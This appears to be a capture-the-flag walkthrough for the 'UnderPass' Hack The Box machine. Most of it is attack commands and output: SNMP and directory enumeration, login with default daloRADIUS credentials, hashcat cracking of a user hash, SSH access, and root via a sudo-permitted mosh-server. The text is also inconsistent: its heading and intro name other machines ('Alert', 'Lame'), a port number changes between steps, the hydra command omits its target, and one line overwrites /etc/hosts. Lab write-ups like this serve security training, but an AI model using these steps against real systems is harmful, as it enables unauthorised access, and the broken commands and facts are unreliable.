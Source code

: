 # Alert

`Lame` is a Linux machine that is rated as easy. It is a great box for beginners and is a good way to get introduced to the platform. 

- **Difficulty:** Easy
- **OS:** Linux

[UnderPass](https://app.hackthebox.com/machines/UnderPass)

## Recon

```bash
> nmap -sC -sV -T5 -p- $TARGET

Nmap scan report for 10.10.11.48
Host is up (0.047s latency).
Not shown: 64957 closed tcp ports (reset), 576 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48b0d2c72926ae3dfbb76b0ff54d2aea (ECDSA)
|_  256 cb6164b81b1bb5bab84586c516bbe2a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
> nmap -sU -T5 $TARGET

Nmap scan report for 10.10.11.48
Host is up (0.078s latency).
Not shown: 568 closed udp ports (port-unreach), 431 open|filtered udp ports (no-response)
PORT    STATE SERVICE
161/udp open  snmp
```

```bash
> snmpwalk -c public -v 2c "$TARGET

Created directory: /var/lib/snmp/cert_indexes
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (550476) 1:31:44.76
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.13.3.1.3
iso.3.6.1.2.1.1.9.1.2.10 = OID: iso.3.6.1.2.1.92
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.4.1 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.2 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.3 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.4 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.5 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.6 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.7 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.8 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.9 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.10 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.25.1.1.0 = Timeticks: (552186) 1:32:01.86
iso.3.6.1.2.1.25.1.2.0 = Hex-STRING: 07 E9 05 07 0B 14 17 00 2B 00 00
iso.3.6.1.2.1.25.1.3.0 = INTEGER: 393216
iso.3.6.1.2.1.25.1.4.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-126-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0"
iso.3.6.1.2.1.25.1.5.0 = Gauge32: 3
iso.3.6.1.2.1.25.1.6.0 = Gauge32: 271
iso.3.6.1.2.1.25.1.7.0 = INTEGER: 0
iso.3.6.1.2.1.25.1.7.0 = No more variables left in this MIB View (It is past the end of the MIB tree)"
```

````bash
echo $TARGET UnderPass.htb > /etc/hosts
````

> Nothing interesting on the web server. It is just the default page for Apache2.

## Enumeration

Dalorius is a web application that is used for managing and monitoring network devices. It is often used in conjunction with SNMP to provide a centralized view of network performance and health.
It is oftenly accessed via the URL `/daloradius/`.

```bash
dirsearch -r -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -u "http://underpass.htb/daloradius/"

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 2563

Target: http://underpass.htb/

[15:10:57] Scanning: daloradius/
[15:10:57] 200 -   221B - /daloradius/.gitignore
[15:10:59] 200 -   24KB - /daloradius/ChangeLog
[15:11:00] 200 -    2KB - /daloradius/docker-compose.yml
[15:11:00] 200 -    2KB - /daloradius/Dockerfile
[15:11:01] 403 -   278B - /daloradius/index.phps
[15:11:02] 200 -   10KB - /daloradius/README.md
[15:11:02] 403 -   278B - /daloradius/setup/
Added to the queue: daloradius/setup/

[15:11:03] Scanning: daloradius/setup/
[15:11:06] 403 -   278B - /daloradius/setup/index.phps

[21:34:40] Scanning: daloradius/app/
[21:34:40] 200 -   221B - /daloradius/app/.gitignore
[21:34:42] 301 -  330B  - /daloradius/app/common  ->  http://underpass.htb/daloradius/app/common/
[21:35:51] 302 -    0B  - /daloradius/app/users/  ->  home-main.php
[21:35:51] 301 -  329B  - /daloradius/app/users  ->  http://underpass.htb/daloradius/app/users/
[21:35:51] 301 -  329B  - /daloradius/app/users  ->  http://underpass.htb/daloradius/app/operators/
[21:35:51] 200 -    4KB - /daloradius/app/users/login.php
[21:35:51] 200 -    4KB - /daloradius/app/operators/login.php

Task Completed
```

We have found two login pages:
- `/daloradius/app/users/login.php`
- `/daloradius/app/operators/login.php`

## Initial Access

Let's try to brute-force the login page with the default credentials for daloradius.
The default credentials are:
- Username: `administrator`
- Password: `radius`

```bash
hydra -l administrator -p radius -f -s 80 http-get "/daloradius/app/users/login.php"
```

```bash
[80][http-get] host: underpass.htb   login: administrator   password: radius
```

From `Management` tab, we can list all users and their passwords.
There is only one user:

- Username: `svcMosh`
- Password (Hashed): `412DD4759978ACFCC81DEAB01B382403`

We can use `hashcat` to crack the password.

```bash
hashcat --hash-type 0 --attack-mode 0 svcMosh.hash `fzf-wordlists`

...
412dd4759978acfcc81deab01b382403:underwaterfriends
...
```

## Post-Exploitation

We can use the credentials to login to the web application.

```bash
ssh svcMosh@$TARGET
cat user.txt
61126bac2b5e802877b2299d43fe7243
```

## Privilege Escalation

```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

```bash
svcMosh@underpass:~$ sudo /usr/bin/mosh-server

MOSH CONNECT 60001 ZmK4l+FUqq6ZniQJg56Vcw 

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 3848]
```

```bash
svcMosh@underpass:~$ MOSH_KEY=ZmK4l+FUqq6ZniQJg56Vcw mosh-client 127.0.0.1 60002
root@underpass:~# cat root.txt
ee50c7369eb7b916bb149d30576ec32f
```
